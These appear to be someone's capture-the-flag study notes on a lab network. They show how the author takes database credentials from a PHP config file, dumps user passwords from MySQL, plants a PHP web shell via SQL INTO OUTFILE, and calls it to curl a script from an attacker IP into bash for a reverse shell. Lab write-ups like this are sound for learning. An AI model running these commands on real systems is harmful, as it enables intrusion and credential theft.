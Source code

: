 Now will try to login and see what data we can get from it 
```
mysql -u <username> -p -h 192.168.100.1
```

```
mysql -u admin -p -h 192.168.100.1
```

```
DBManagerLogin!
```

so this is not working which means we have to do osint in the file to get the pasword that might work

db_connect.php looks fishy
![[Pasted image 20240817172018.png]]


BINGOOOOOOOOOOOOOOO
```
define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');
```


```
mysql -u admin -p -h 192.168.100.1
```

```
!123SecureAdminDashboard321!
```


>[! important] Important

This happened here and might happened in the exam as well. I was not able to get the mysql shell in the dumb shell and after i changed it into interactive shell i was able to get it.

Taking help of Chat GPT

![[Pasted image 20240817224657.png]]

```
select username,password from users limit 10;
```

```
| username | password        |
+----------+-----------------+
| admin    | DBManagerLogin! |
| gurag    | AAAA      
```


```
select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';
```
![[Pasted image 20240817230257.png]]


We will try to get the shell from the Docker now
Attacker -> Linux Server  (RCE PHP injection)
Linux -> Docker (PHP injection via SQL) 
Docker -> Attacker (reverse shell)
```
curl 192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.51.9.13%3A80%2Fphp_rev.sh%7Cbash%20%26
```

![[Pasted image 20240818004729.png]]

```
www-data@ip-10-201-11-33:/var/www$ cat user.txt
cat user.txt
HOLO{3792d7d80c4dcabb8a533afddf06f666}
```

